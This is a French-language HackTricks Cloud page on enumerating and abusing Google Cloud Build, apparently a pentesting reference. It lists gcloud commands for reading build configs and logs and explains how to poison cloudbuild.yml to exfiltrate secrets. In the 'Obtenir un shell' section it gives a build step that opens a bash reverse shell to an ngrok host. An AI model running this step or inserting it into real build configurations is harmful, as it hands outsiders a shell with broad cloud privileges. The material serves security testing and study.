 # GCP - Cloud Build Enum

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Google Cloud Build est une plateforme CI/CD gérée qui **automatise les processus de construction et de sortie de logiciels**, s'intégrant avec **des dépôts de code source** et prenant en charge un large éventail de langages de programmation. Elle **permet aux développeurs de construire, tester et déployer du code automatiquement** tout en offrant la flexibilité de personnaliser les étapes de construction et les flux de travail.

Chaque déclencheur Cloud Build est **lié à un dépôt Cloud ou directement connecté à un dépôt externe** (Github, Bitbucket ou Gitlab).

Il est possible de configurer un Cloud Build pour **exiger des approbations pour l'exécution des constructions** (désactivé par défaut).

Le **compte de service a le scope `cloud-platform`**, il peut donc **utiliser tous les privilèges.** Si **aucun compte de service n'est spécifié** (comme lors de la soumission), le **compte de service par défaut** `<proj-number>@cloudbuild.gserviceaccount.com` sera **utilisé.**

{% hint style="success" %}
Je n'ai trouvé aucun moyen de voler le jeton Github/Bitbucket d'ici ou des dépôts Cloud car lorsque le dépôt est téléchargé, il est accédé via une URL [https://source.cloud.google.com/](https://source.cloud.google.com/) et Github n'est pas accédé par le client.
{% endhint %}

### Stockage

Parfois, Cloud Build va **générer un nouveau stockage pour stocker les fichiers pour le déclencheur**. Cela se produit par exemple dans l'exemple que GCP offre avec :
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Un bucket Storage nommé [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) est créé pour stocker un `.tgz` avec les fichiers à utiliser.

### Obtenir un shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Énumération

Vous pourriez trouver **des informations sensibles dans les configurations de build et les journaux**.
```bash
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs
```
## Élévation de privilèges

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Accès non authentifié

### cloudbuild.yml

Si vous compromettez l'accès en écriture sur un dépôt contenant un fichier nommé **`cloudbuild.yml`**, vous pourriez **infiltrer** ce fichier, qui spécifie les **commandes qui vont être exécutées** à l'intérieur d'un Cloud Build et exfiltrer les secrets, compromettre ce qui est fait et aussi compromettre le **compte de service Cloud Build.**

{% hint style="info" %}
Notez que GCP offre l'option permettant aux administrateurs de contrôler l'exécution des systèmes de build depuis des PR externes via "Comment Control". Comment Control est une fonctionnalité où les collaborateurs/propriétaires de projet **doivent commenter “/gcbrun” pour déclencher le build** contre la PR et utiliser cette fonctionnalité empêche intrinsèquement quiconque sur Internet de déclencher vos systèmes de build.
{% endhint %}

Pour des informations connexes, vous pourriez consulter la page sur comment attaquer Github Actions (similaire à ceci) :

{% content-ref url="../../../pentesting-ci-cd/github-security/abusing-github-actions/" %}
[abusing-github-actions](../../../pentesting-ci-cd/github-security/abusing-github-actions/)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
